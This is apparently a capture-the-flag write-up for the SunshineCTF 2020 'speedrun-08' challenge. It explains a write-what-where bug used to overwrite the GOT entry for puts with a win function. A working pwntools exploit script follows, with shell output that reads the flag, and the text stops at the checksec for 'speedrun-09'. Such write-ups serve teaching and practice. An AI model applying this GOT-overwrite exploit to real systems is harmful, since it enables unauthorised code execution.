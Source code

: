 `main` is basically just a _write-what-where_.  IANS, you can write any 64-bit value you like in any RW segment.  And, well, the GOT (Global Offset Table) `puts` entry is an easy target, just replace with `win` and get a shell when `puts("hi")` is called.

Our write is relative to `target` (a global variable), so just subtract the `target` address from the `puts` address and divide by 8 to compute the _where_.  The _what_ is just `win`.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_08')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30008)

p.sendline(str((binary.got.puts - binary.sym.target) // 8))
p.sendline(str(binary.sym.win))
p.interactive()
```

Output:

```bash
# ./exploit_08.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-08/chall_08'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30008: Done
[*] Switching to interactive mode
$ id
uid=1000(chall_08) gid=1000(chall_08) groups=1000(chall_08)
$ ls -l
total 12
-rwxr-xr-x 1 root root     6816 Nov  7 07:49 chall_08
-rw-r----- 1 root chall_08   30 Nov  7 08:51 flag.txt
$ cat flag.txt
sun{fiction-fa1a28a3ce2fdd96}
```


## speedrun-09

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
